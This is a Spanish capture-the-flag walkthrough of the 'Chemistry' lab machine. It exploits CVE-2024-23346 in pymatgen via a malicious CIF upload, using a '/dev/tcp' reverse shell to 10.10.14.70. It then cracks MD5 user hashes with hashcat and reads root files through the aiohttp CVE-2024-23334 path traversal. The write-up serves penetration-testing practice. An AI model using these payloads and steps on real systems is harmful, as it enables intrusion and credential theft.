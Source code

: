 # Chemistry

Tags: [[_cve]],[[_webExploitation]],[[_cracking]],[[_internalPortAbusing]],[[_lfi]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Linux</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
<span style="color:#07b4f2">Buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>, <span style="color:#bef202">un posible</span> <span style="color:#ecacb6">Debian</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">22</span> - SSH. <span style="color:#379075">Version 8.2p1</span>
<span style="color:#ff669c">5000</span> - UPnP.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">22</span>.
<span style="color:#07b4f2">No tengo</span> <span style="color:#ff2dc0">credenciales</span> de momento.

<span style="color:#ff669c">5000</span>.
<span style="color:#ff2dc0">whatweb</span>. <span style="color:#ff2dc0">Python3 3.9.5</span> y poco más.

<span style="color:#ff2dc0">Desde la web</span>. Es una <span style="color:#07b4f2">utilidad</span> para <span style="color:#ff2dc0">subir</span> un <span style="color:#ff2dc0">CIF</span> (<span style="color:#379075">Crystallographic Information File</span>) y <span style="color:#07b4f2">analizar</span> la <span style="color:#07b4f2">estructura</span> que tiene.
Me puedo <span style="color:#07b4f2">registrar</span>, vemos la <span style="color:#ff2dc0">subida de archivos</span>, y hay un <span style="color:#07b4f2">ejemplo</span> <span style="color:#ecacb6">.cif</span> para <span style="color:#07b4f2">descargar</span>.

Cuando el<span style="color:#07b4f2"> archivo no</span> es <span style="color:#ff2dc0">CIF</span>, el <span style="color:#ff2dc0">método</span> <span style="color:#07b4f2">no</span> es <span style="color:#07b4f2">permitido</span>, pero <span style="color:#07b4f2">si subo</span> uno <span style="color:#07b4f2">válido</span>, puedo <span style="color:#07b4f2">ver</span> su <span style="color:#07b4f2">contenido</span>.
Probando un <span style="color:#ff2dc0">SSTI</span> en un lugar, pero al <span style="color:#07b4f2">tratar</span> de <span style="color:#07b4f2">ver en</span> la <span style="color:#ff2dc0">web</span>, el <span style="color:#ff2dc0">servidor</span> tiene un <span style="color:#07b4f2">error</span>.

Interesante, tiene <span style="color:#07b4f2">su lenguaje</span>.
https://www.iucr.org/resources/cif/spec/version1.1/cifsyntax


Investigando, podemos <span style="color:#07b4f2">pensar</span> que hay una <span style="color:#ff2dc0">función</span> por detrás que <span style="color:#07b4f2">se encarga</span> de <span style="color:#ff2dc0">parsear</span> la <span style="color:#07b4f2">información</span> del <span style="color:#ecacb6">.cif</span>
Encontramos esta <span style="color:#ff2dc0">web</span>, donde <span style="color:#07b4f2">tratan</span> el <span style="color:#ecacb6">CVE-2024-23346</span>.
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/ :    hay que crear el <span style="color:#ff2dc0">archivo CIF </span>con el <span style="color:#ff2dc0">payload</span> <span style="color:#07b4f2">bien</span>.
Lo que <span style="color:#07b4f2">podríamos</span> hacer, es <span style="color:#07b4f2">utilizar</span> el <span style="color:#07b4f2">ejemplo</span> que nos dan (<span style="color:#379075">web máquina víctima</span>), y al <span style="color:#07b4f2">final añadir</span> las <span style="color:#07b4f2">3 líneas</span> importantes, desde<span style="color:#ecacb6"> _space_group...</span> en adelante, y <span style="color:#07b4f2">añadir</span> bien el <span style="color:#ff2dc0">comando</span> a ejecutar
<span style="color:#ecacb6">system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.70/433 0>&1\'")</span>

<span style="color:#ff2dc0">Subimos</span>, damos a <span style="color:#ecacb6">View</span> y pa deeentro.

<span style="color:#bef202">Cosas extra</span>.
Encontramos este <span style="color:#07b4f2">artículo</span> donde <span style="color:#07b4f2">tocan</span> una <span style="color:#ff2dc0">librería</span> interesante.
https://github.com/DanPorter/Dans_Diffraction


## Escalada

Enumerar todo el sistema.
Es un Ubuntu Focal. Aunque toca debian en unas partes.

<span style="color:#07b4f2">Usuarios</span> válidos a <span style="color:#ff2dc0">nivel</span> de <span style="color:#ff2dc0">sistema</span>.
<span style="color:#ecacb6">root</span>
<span style="color:#ecacb6">rosa</span>
<span style="color:#ecacb6">app</span>

Hay un <span style="color:#ecacb6">/home/app/instance/database.db</span> 
Podemos interactuar con el archivo usando sqlite3.
<span style="color:#88c425">sqlite3 database.db</span> :    entro de <span style="color:#07b4f2">forma</span> <span style="color:#ff2dc0">interactiva</span>.
<span style="color:#ecacb6">.headers ON</span> :    <span style="color:#07b4f2">ver valores</span> con <span style="color:#ecacb6">select</span>.
<span style="color:#ecacb6">.mode column</span>
<span style="color:#ecacb6">.schema </span>:   ver <span style="color:#07b4f2">estructura</span> de <span style="color:#ecacb6">tablas</span>.
<span style="color:#ecacb6">select * from user;</span> :    <span style="color:#07b4f2">user</span> es la <span style="color:#ecacb6">tabla</span>.

Obtenemos.
<span style="color:#ecacb6">admin:2861debaf8d99436a10ed6f75a252abf</span>
<span style="color:#ecacb6">rosa:63ed86ee9f624c7b14f1d4f43dc251a5</span>
<span style="color:#ecacb6">app:197865e46b878d9e74a0346b6d59886a</span>
Hashes <span style="color:#ff2dc0">md5</span>, los <span style="color:#07b4f2">tratamos</span> de <span style="color:#ff2dc0">romper</span>.
<span style="color:#88c425">hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt</span> :    si <span style="color:#07b4f2">no se ve</span> la <span style="color:#ecacb6">password</span> al <span style="color:#07b4f2">final</span> del <span style="color:#ff2dc0">crackeo</span>, le metemos <span style="color:#ecacb6">--show</span>

Obtenemos.
<span style="color:#ecacb6">rosa:unicorniosrosados</span>

<span style="color:#88c425">netstat -l</span> :    vemos <span style="color:#ecacb6">localhost:http-alt</span>, investigamos y su <span style="color:#ff2dc0">default</span> <span style="color:#ff669c">port</span> es <span style="color:#ff669c">8080</span>.
<span style="color:#88c425">curl -s 127.0.0.1:8080</span> :    me <span style="color:#07b4f2">responde</span>.
<span style="color:#88c425">curl -s 127.0.0.1:8080 -I</span> :   ver <span style="color:#ff2dc0">cabeceras</span>, entre ellas
<span style="color:#ecacb6">Server: Python/3.9 aiohttp/3.9.1</span> 

<span style="color:#ecacb6">aiohttp/3.9.1 </span>tiene <span style="color:#ff2dc0">vulnerabilidades</span>.
https://github.com/jhonnybonny/CVE-2024-23334/blob/main/ :    un <span style="color:#ff2dc0">LFI</span>. Se <span style="color:#07b4f2">contempla</span> <span style="color:#ecacb6">/static</span>, pero nosotros <span style="color:#07b4f2">probamos</span> con <span style="color:#ecacb6">/assets</span>, que es donde <span style="color:#07b4f2">carga</span> <span style="color:#ff2dc0">recursos</span>.
Y para que <span style="color:#ff2dc0">curl</span> me <span style="color:#07b4f2">mantenga</span> los <span style="color:#ecacb6">../</span>, le metemos <span style="color:#ecacb6">--path-as-is</span>
<span style="color:#88c425">curl -s "http://localhost:8080/assets/../../../../../../etc/passwd" --path-as-is</span>
<span style="color:#07b4f2">Buscamos</span> una <span style="color:#ecacb6">id_rsa</span>, la obtenemos y pa deeeeentro.

FIN.
